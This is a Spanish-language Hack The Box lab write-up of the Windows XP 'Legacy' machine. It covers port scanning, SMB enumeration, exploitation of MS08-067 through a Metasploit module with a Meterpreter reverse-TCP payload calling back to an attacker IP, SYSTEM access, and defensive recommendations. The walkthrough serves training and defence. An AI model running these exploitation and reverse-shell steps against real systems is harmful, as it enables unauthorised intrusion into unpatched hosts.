







# Legacy — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Windows  
**Autor de la máquina:** ch4p  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · SMB · Windows XP · MS08-067 · CVE-2008-4250 · NetAPI Buffer Overflow · Metasploit · Meterpreter

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración de servicios](#2-enumeración-de-servicios)
3. [Identificación de la vulnerabilidad — MS08-067](#3-identificación-de-la-vulnerabilidad--ms08-067)
4. [Explotación con Metasploit](#4-explotación-con-metasploit)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.38.161
```



Salida obtenida:

```text
64 bytes from 10.129.38.161: icmp_seq=1 ttl=127 time=33.5 ms
```

> 💡 El valor `TTL=127` es una pista directa de que estamos frente a una máquina **Windows** (TTL inicial 128 menos un salto de red).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.38.161 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> 💡 Esta tríada — **135 (MS-RPC), 139 (NetBIOS) y 445 (SMB)** — es la firma típica de una máquina Windows con servicios de red expuestos. El servicio SMB en el 445 será el vector principal.

---

## 2. Enumeración de servicios

Una vez identificados los puertos abiertos, realizamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p135,139,445 10.129.38.161 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   Computer name: legacy
|   NetBIOS computer name: LEGACY
|   Workgroup: HTB
```

> 💡 Dos pistas críticas:
> - **Windows XP** → sistema operativo *end-of-life* desde abril de 2014, sin parches oficiales desde entonces.
> - **SMBv1** activo en el puerto 445 → superficie de ataque histórica con varias vulnerabilidades públicas de RCE no autenticado.

---

## 3. Identificación de la vulnerabilidad — MS08-067

Windows XP con SMBv1 expuesto deja como sospechosos principales **tres exploits clásicos** del catálogo histórico de Microsoft:



| Exploit | CVE | Servicio | Impacto |
|---|---|---|---|
| **MS08-067** | CVE-2008-4250 | NetAPI / SRVSVC (RPC sobre SMB) | RCE no autenticado como `SYSTEM` |
| **MS17-010 EternalBlue** | CVE-2017-0143 | SRV.SYS driver (SMBv1) | RCE no autenticado como `SYSTEM` (base de WannaCry) |
| **MS08-068 SMB Relay** | CVE-2008-4037 | Autenticación SMB | Suplantación + ejecución de comandos |

### Por qué elegimos MS08-067

`MS08-067` es la vía más limpia para Windows XP **sin parchear** y sin requerir captura previa de hashes. Es un *buffer overflow* en la función `NetPathCanonicalize` del servicio Server (SRVSVC), accesible mediante una llamada RPC en SMB. El exploit es estable, está integrado en Metasploit y otorga directamente `NT AUTHORITY\SYSTEM`.

> 💡 Si MS08-067 fallara (XP con parche posterior a 2008), siempre podríamos caer al *plan B* y probar **EternalBlue** (CVE-2017-0143).

---

## 4. Explotación con Metasploit

Lanzamos `msfconsole` y cargamos el módulo correspondiente.

```bash
msfconsole -q
use exploit/windows/smb/ms08_067_netapi
```

### Configuración del módulo

```text
msf6 exploit(windows/smb/ms08_067_netapi) > options
```



Ajustamos los parámetros mínimos:

```text
set RHOSTS 10.129.38.161
set LHOST 10.10.14.63
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
```

### Explicación de opciones

| Opción | Función |
|---|---|
| `RHOSTS` | IP de la víctima |
| `LHOST` | IP del atacante donde escuchará el payload |
| `LPORT` | Puerto donde escucha el handler (por defecto 4444) |
| `payload windows/meterpreter/reverse_tcp` | Shell *Meterpreter* en lugar de un cmd estándar (interactividad y módulos post) |
| `target 0` | *Automatic Targeting* — Metasploit detecta la build exacta del XP/Server |

> 💡 Usar **Meterpreter** en lugar de una shell plana nos da acceso inmediato a comandos como `getuid`, `hashdump`, `getsystem`, `migrate`, así como transferencia bidireccional de ficheros (`upload`/`download`).

---

### Ejecución

```text
msf6 exploit(windows/smb/ms08_067_netapi) > run
```



Salida resumida:

```text
[*] Started reverse TCP handler on 10.10.14.63:4444
[*] 10.129.38.161:445 - Automatically detecting the target...
[*] 10.129.38.161:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.38.161:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.38.161:445 - Attempting to trigger the vulnerability...
[*] Sending stage (199228 bytes) to 10.129.38.161
[*] Meterpreter session 1 opened (10.10.14.63:4444 -> 10.129.38.161:1032)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

✅ **Compromiso total en un único paso**: el exploit fingerprintea el objetivo como XP SP3 inglés, dispara el overflow, instala el stager y nos entrega una sesión de Meterpreter como `NT AUTHORITY\SYSTEM`.

> 💡 No hay escalada de privilegios que valga: `MS08-067` se ejecuta en el contexto del servicio Server, que en Windows XP corre directamente como `SYSTEM`.

---

## 5. Post-explotación y flags

Con privilegios máximos, exploramos el sistema de ficheros para localizar las flags.

```text
meterpreter > shell
C:\WINDOWS\system32> cd C:\
C:\> dir
C:\> cd "Documents and Settings"
C:\Documents and Settings> dir
```



Se ven los perfiles de usuario:

```text
Administrator
All Users
john
```

Las flags están en los escritorios de `john` y `Administrator`:

```cmd
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

✅ Máquina completada.

> 💡 En Windows XP la ruta de los perfiles es `C:\Documents and Settings\<usuario>` (a partir de Vista pasó a ser `C:\Users\<usuario>`).

---

## 6. Lección aprendida

`Legacy` es el ejemplo canónico de **debt-by-default**: un sistema operativo *end-of-life* mantenido en producción con servicios sensibles expuestos. La vulnerabilidad tiene **17 años** en el momento de resolución, pero sigue siendo plenamente explotable porque Microsoft dejó de publicar parches en 2014.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Sistema operativo sin soporte | Windows XP SP3 | Sin parches desde abril de 2014 |
| SMBv1 expuesto | Puerto 445 | Superficie de ataque histórica |
| MS08-067 sin parchear | Servicio Server (SRVSVC) | RCE no autenticado como SYSTEM |
| Servicio crítico ejecutado como SYSTEM | `srv.sys` / NetAPI | Compromiso directo sin escalada |

---

## Recomendaciones defensivas

- Retirar **inmediatamente** cualquier sistema con Windows XP/2003 de la red: no recibirá parches nunca más y existen exploits estables y triviales.
- Si la migración no es posible (sistemas SCADA, equipos médicos, kioscos), **aislar a nivel de red**: VLAN dedicada, sin acceso a internet, ACLs estrictas en el firewall.
- **Deshabilitar SMBv1** en todos los hosts modernos (`Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol`).
- Aplicar el parche **MS08-067** y **MS17-010** en cualquier Windows pre-2017 que aún quede en producción.
- Implementar segmentación: ningún host con servicios SMB debería ser accesible desde redes no confiables.
- Habilitar logging de SMB (Event ID 5140, 5145) y alertar sobre conexiones a `srvsvc`, `lsarpc` y otras pipes RPC desde direcciones sospechosas.
- Considerar EDR/AppLocker para bloquear binarios de explotación conocidos (`PsExec`, `Mimikatz`, payloads Meterpreter).

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
